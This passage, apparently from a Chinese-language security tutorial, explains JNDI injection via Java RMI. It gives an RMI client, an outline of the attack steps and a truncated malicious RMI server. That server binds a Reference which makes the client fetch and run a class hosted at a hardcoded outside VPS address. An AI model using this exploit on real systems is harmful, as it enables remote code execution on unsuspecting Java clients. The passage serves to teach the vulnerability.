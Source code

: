 
rmiclient代码


```java
public class RMICustomer {
    public static void main(String[] args) throws RemoteException, NotBoundException {
        IHello hello = (IHello) LocateRegistry.getRegistry("127.0.0.1", 1099).lookup("Hello");
        Person person = hello.sayHello();

    }
}

```


这样客户端就可以完成命令执行了，但是现实中不可能遇到上述代码中的情况。那么有没有一种特别通用的利用方式呢？让客户端在lookup一个远程方法的时候能直接造成RCE，事实证明是有的。


这里就要讲到一个特别的类javax.naming.Reference，该类的作用就是记录一个远程对象的位置，然后服务端将实例化好的Reference类通过bind方法注册到rmiregistry上，然后客户端通过rmiregistry返回的Stub信息找到服务端并调用该Reference对象，Reference对象通过URLClassloader将记录在Reference对象中的Class从远程地址上加载到本地，从而触发恶意类中的静态代码块，导致RCE。


**上面说的也就是JDNI注入**，关于JNDI的详细介绍可参考：[深入理解JNDI注入与Java反序列化漏洞利用](https://kingx.me/Exploit-Java-Deserialization-with-RMI.html)


```text
本次实验整个流程如下：

- 首先开启 HTTP 服务器，并将我们的恶意类放在目录下
- 开启恶意 RMI 服务器
- 攻击者控制uri参数为上一步开启的恶意 RMI 服务器地址
- 恶意RMI服务器返回 ReferenceWrapper 类
- 目标（Client) 在执行lookup操作的时候，在decodeObject 中将ReferenceWrapper 变为 Reference 类，然后远程加载并实例化我们的Factory类（即远程加载我们HTTP服务器上的恶意类），在实例化时触发静态代码片段中的恶意代码。

```


SERVER端代码：


```java
package com.rmi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class SERVER {

    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {

        Registry registry = LocateRegistry.createRegistry(1099);

        String url = "http://1.14.47.152:8081/"; //vps地址，存放恶意类用于远程加载
        // Reference需要传入三个参数 (className,factory,factoryLocation)
        // 第一个参数随意填写即可，第二个参数填写我们http服务下的类名，第三个参数填写我们的远程地址
        Reference reference = new Reference("ExecTest", "ExecTest", url);

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);

        registry.bind("evil", referenceWrapper);

```